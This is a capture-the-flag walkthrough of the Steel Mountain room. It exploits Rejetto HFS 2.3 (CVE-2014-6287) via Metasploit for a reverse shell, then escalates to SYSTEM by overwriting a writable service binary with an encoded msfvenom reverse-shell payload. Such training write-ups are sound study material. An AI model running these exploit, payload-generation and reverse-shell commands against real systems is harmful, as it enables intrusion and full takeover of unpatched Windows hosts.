



## Scenario

> In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.
> 
> Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

Access via: `10.113.130.131`

## Initial Enumeration

### Question — Deploy the machine. Who is the employee of the month?

Ran an initial nmap scan with ping disabled, since the room notes the machine doesn't answer ICMP:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.130.131 -Pn            

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-14 19:18 +0200
Nmap scan report for 10.113.130.131
Host is up (0.035s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.27 seconds
```

**Breakdown:**

- `sudo` runs the scan with root privileges
- `nmap` the port scanner
- `10.113.130.131` the target IP
- `-Pn` skips the host-discovery ping check and treats the target as up regardless, which is needed here since the machine doesn't respond to ICMP

Followed up with a version/script scan against the open ports:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.113.130.131 -Pn -p80,135,139,445,4489,5985,8080,49152,49153,49154,49155,49156 -sV -sC 

Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-14 19:19 +0200
Nmap scan report for 10.113.130.131
Host is up (0.035s latency).

PORT      STATE  SERVICE      VERSION
80/tcp    open   http         Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/8.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
4489/tcp  closed unknown
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open   http         HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open   msrpc        Microsoft Windows RPC
49153/tcp open   msrpc        Microsoft Windows RPC
49154/tcp open   msrpc        Microsoft Windows RPC
49155/tcp open   msrpc        Microsoft Windows RPC
49156/tcp open   msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-11-14T17:20:49
|_  start_date: 2026-11-14T17:02:53
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 06:ff:f4:94:49:6b (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.34 seconds
```

**Breakdown:**

- `sudo nmap 10.113.130.131 -Pn` same host and ping-skip as before
- `-p80,135,139,445,4489,5985,8080,49152,49153,49154,49155,49156` restricts the scan to the ports already known to be open (plus 4489, which came back closed)
- `-sV` service/version detection
- `-sC` default safe script set

This confirmed an IIS web server on port 80, Windows Server 2008 R2–2012 underneath, and an `HttpFileServer httpd 2.3` on port 8080, among the standard SMB/RPC ports.

Visited the main site on port 80 to find the employee-of-the-month page:



Reverse image-searched the photo to put a name to the face:


**Answer:** `Bill Harper`

## Initial Access

### Question — Scan the machine with nmap. What is the other port running a web server on?

Already visible in the nmap scan above — port 8080 was running `HttpFileServer httpd 2.3`, alongside IIS on port 80.

**Answer:** `8080`

### Question — Take a look at the other web server. What file server is running?

Browsed to the file server directly:



The server information panel named the software and linked to its home page:


**Answer:** `Rejetto HTTP File Server`

### Question — What is the CVE number to exploit this file server?

With the software and version in hand, searched for its known CVE:



CVE-2024-23692 is listed as unpatched in any version, but CVE-2014-6287 is the one specific to unpatched versions prior to 2.3c — which matches the 2.3 build identified above.

**Answer:** `2014-6287`

### Question — Use Metasploit to get an initial shell. What is the user flag?

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfconsole -q                          

[*] Starting persistent handler(s)...
msf > search CVE-2014-6287

Matching Modules
================

   #  Full Name                              Disclosure Date  Rank       Check  Name
   -  ---------                              ---------------  ----       -----  ----
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

**Breakdown:**

- `msfconsole` launches the Metasploit console
- `-q` suppresses the startup banner
- `search CVE-2014-6287` searches Metasploit's module database for anything tagged with that CVE
- `use 0` selects the matching module by its index number from the search results

Configured the module's target and listener settings:

```shell
msf exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.113.130.131
RHOSTS => 10.113.130.131
msf exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf exploit(windows/http/rejetto_hfs_exec) > set SRVHOST tun0
SRVHOST => —REDACTED—
msf exploit(windows/http/rejetto_hfs_exec) > set LHOST tun0
LHOST => —REDACTED—
```

**Breakdown:**

- `set RHOSTS 10.113.130.131` sets the target's IP
- `set RPORT 8080` sets the target port, matching the HFS instance found above
- `set SRVHOST tun0` sets the local interface the module's temporary web server binds to, by interface name rather than IP — Metasploit resolves `tun0` to the attack VPN interface's address, `—REDACTED—`
- `set LHOST tun0` sets the reverse-shell listen address the same way

```shell
msf exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on —REDACTED—:4444 
[*] Using URL: http://—REDACTED—:8080/BTplf3vu
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /BTplf3vu
[*] Sending stage (203454 bytes) to 10.113.130.131
[!] Tried to delete %TEMP%\WKukIl.vbs, unknown result
[*] Meterpreter session 1 opened (—REDACTED—:4444 -> 10.113.130.131:49330) at 2026-11-14 19:33:59 +0200
[*] Server stopped.

meterpreter > 
```

**Breakdown:**

- `exploit` launches the module against the configured target, starting a listener and serving the malicious request that HFS's unpatched search-handling flaw lets through unauthenticated

A meterpreter session opened as a result.

```shell
meterpreter > search -f user.txt

Found 1 result...
=================

Path                            Size (bytes)  Modified (UTC)
----                            ------------  --------------
c:\Users\bill\Desktop\user.txt  70            2019-09-27 15:42:38 +0300

meterpreter > cat "C:\Users\bill\Desktop\user.txt"

—REDACTED—
```

**Breakdown:**

- `search -f user.txt` searches the filesystem accessible to the current session for any file named `user.txt`
- `cat "C:\Users\bill\Desktop\user.txt"` prints the matched file's contents, with the path quoted.

**Answer:** `—REDACTED—`

## Privilege Escalation

With a shell as `bill`, the next step was finding a path to Administrator. Downloaded PowerUp, a PowerShell script for spotting common Windows privilege-escalation misconfigurations:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 -O PowerUp.ps1
```

**Breakdown:**

- `wget` downloads a file over HTTP/HTTPS
- `https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1` the raw script URL — fetching the raw file rather than the GitHub page around it
- `-O PowerUp.ps1` writes the downloaded content to a file named `PowerUp.ps1`

Uploaded it into the meterpreter session and loaded PowerShell support:

```shell
meterpreter > upload ~/PowerUp.ps1

[*] Uploading  : /home/—REDACTED—/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 1.43 KiB of 1.43 KiB (100.0%): /home/—REDACTED—/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /home/—REDACTED—/PowerUp.ps1 -> PowerUp.ps1
meterpreter > load powershell

Loading extension powershell...Success.
meterpreter > powershell_shell
```

**Breakdown:**

- `upload ~/PowerUp.ps1` copies the local file into the session's current remote directory, keeping the same filename
- `load powershell` loads meterpreter's PowerShell extension, which lets PowerShell commands run directly in the session
- `powershell_shell` drops into an interactive PowerShell prompt within the session

### Question — Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

Dot-sourced the script to load its functions, then ran its full check:

```shell
PS > . .\Powerup.ps1
PS > Invoke-AllChecks
```

**Breakdown:**

- `. .\Powerup.ps1` dot-sources the script, running it in the current PowerShell scope so the functions it defines become available to call directly, rather than running it as a standalone process
- `Invoke-AllChecks` runs every privilege-escalation check PowerUp bundles, one after another

Among the results:

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

along with several more entries for the same service (and similar, non-restartable entries for `AWSLiteAgent`, `IObitUnSvr` and `LiveUpdateSvc`), plus a second category of finding:

```
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

`AdvancedSystemCareService9` is the one service that's both restartable (`CanRestart: True`) and has its executable file directly writable by `bill` (`Check: Modifiable Service Files`). `IObitUnSvr` and `LiveUpdateSvc` have the same writable-file issue but can't be restarted, which rules them out for this approach — a service you can't restart won't pick up a replaced binary without a reboot.

**Answer:** `AdvancedSystemCareService9`

Generated a reverse-shell payload disguised as a Windows service executable:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=—REDACTED— LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe-service file: 5120 bytes
Saved as: Advanced.exe
```

**Breakdown:**

- `msfvenom` Metasploit's standalone payload generator
- `-p windows/shell_reverse_tcp` the payload type — a Windows command shell that connects back to the attacker
- `LHOST=—REDACTED—` the address the payload calls back to
- `LPORT=4443` the port it calls back on
- `-e x86/shikata_ga_nai` encodes the payload with the shikata_ga_nai encoder, which mangles its byte pattern to help it slip past signature-based detection
- `-f exe-service` outputs the payload wrapped as a Windows service executable, so it exposes the start/stop/control handlers the Service Control Manager expects, rather than a plain standalone .exe
- `-o Advanced.exe` writes the result to a file with that name

Since the service's executable file was directly writable, uploaded the malicious binary straight over the real one rather than bothering with the unquoted-path trick the question pointed at:

```shell
meterpreter > upload ~/Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

[*] Uploading  : /home/—REDACTED—/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
[*] Uploaded 5.00 KiB of 5.00 KiB (100.0%): /home/—REDACTED—/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
[*] Completed  : /home/—REDACTED—/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```

**Breakdown:**

- `upload ~/Advanced.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"` uploads the local file, this time giving an explicit destination path so it overwrites the legitimate service binary in place rather than landing in the session's default working directory

### Question — What is the root flag?

Set up a second listener for the new payload before restarting the service, since it uses a different port than the meterpreter session:

```shell
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/http/rejetto_hfs_exec) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf exploit(multi/handler) > set LHOST tun0
LHOST => —REDACTED—
msf exploit(multi/handler) > set LPORT 4443
LPORT => 4443
msf exploit(multi/handler) > run -j

[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on —REDACTED—:4443 
```

**Breakdown:**

- `background` suspends the current meterpreter session without closing it, returning to the main msfconsole prompt
- `use exploit/multi/handler` selects the generic listener module, which catches a connection from any payload rather than exploiting anything itself
- `set payload windows/shell_reverse_tcp` tells the handler which payload type to expect — matching what msfvenom generated
- `set LHOST tun0` / `set LPORT 4443` set the listen address and port, matching the values baked into `Advanced.exe`
- `run -j` starts the handler as a background job rather than taking over the foreground console, so msfconsole stays free to do other things while it waits. The "Exploit completed, but no session was created" line just means the listener finished starting up — it hasn't caught a connection yet, not that it failed

Went back into the original meterpreter session's PowerShell channel to restart the service:

```shell
meterpreter > sessions -i 1
[*] Starting interaction with 1...

meterpreter > powershell_shell
PS > sc.exe query AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS > sc.exe start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2764
        FLAGS              :
```

**Breakdown:**

- `sessions -i 1` re-interacts with the backgrounded meterpreter session
- `powershell_shell` drops back into the interactive PowerShell prompt
- `sc.exe query AdvancedSystemCareService9` queries the Service Control Manager for the service's current state — stopped, in this case, since overwriting its executable file took it down
- `sc.exe start AdvancedSystemCareService9` starts it back up, which runs the replaced binary — `Advanced.exe` — with `LocalSystem` privileges, since that's the account the service itself runs as

```shell
msf exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

Shell Banner:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>where /R C:\ root.txt

C:\Users\Administrator\Desktop\root.txt

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt

—REDACTED—
```

**Breakdown:**

- `sessions -i 2` interacts with the second session — the handler caught the connection from the restarted service, confirming the service was indeed running as a privileged account
- `where /R C:\ root.txt`, run inside the shell, recursively searches `C:\` for a file named `root.txt`
- `type C:\Users\Administrator\Desktop\root.txt` prints the flag file's contents — sitting on the Administrator's desktop, confirming the shell's elevated privileges

**Answer:** `—REDACTED—`